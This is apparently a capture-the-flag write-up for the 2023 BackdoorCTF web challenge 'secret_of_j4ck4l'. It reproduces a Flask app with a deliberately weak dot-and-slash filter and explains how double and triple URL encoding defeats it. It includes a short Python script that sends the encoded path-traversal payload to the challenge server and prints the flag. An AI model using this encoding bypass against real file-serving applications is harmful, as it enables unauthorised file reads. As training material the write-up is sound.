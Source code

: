 ```yaml
---
title: 2023 BackdoorCTF - secret_of_j4ck4l
date: 2023-12-18 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_BackdoorCTF
  - Web Exploitation
  - Path traversal
---
```


## Overview

* 326 solves / 237 points
* Author: j4ck4l

## Description

> I left a message for you. You will love it definitely
> [http://34.132.132.69:8003/](http://34.132.132.69:8003/)

## Attached

[secret_of_j4ck4l.zip](attached/secret_of_j4ck4l.zip)

This is ```app.py``` file
```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)

```

## Analyzation

Make a path traversal and we got the flag.

```
http://34.132.132.69:8003/read_secret_message?file={payload}
```

But the payload has to pass the filters

```py
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```

- ```ignore_it(file_param)``` detects dot and slash. But it can be passed by encoding to ```%2e``` and ```%2f```.

- ```another_useless_function(file_param)``` unquote the url. But double encoding works fine: ```%2e``` to ```%252e```.

## Solution

```py
import requests

URL = "http://34.132.132.69:8003/read_secret_message?file={}"

query = "%2e%2e%2fflag%2etxt"
for i in range(3):
    for j in range(i):
        query = query.replace("%", "%25")
        response = requests.get(URL.format(query))
        print(response.text)
```

The flag is
```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```
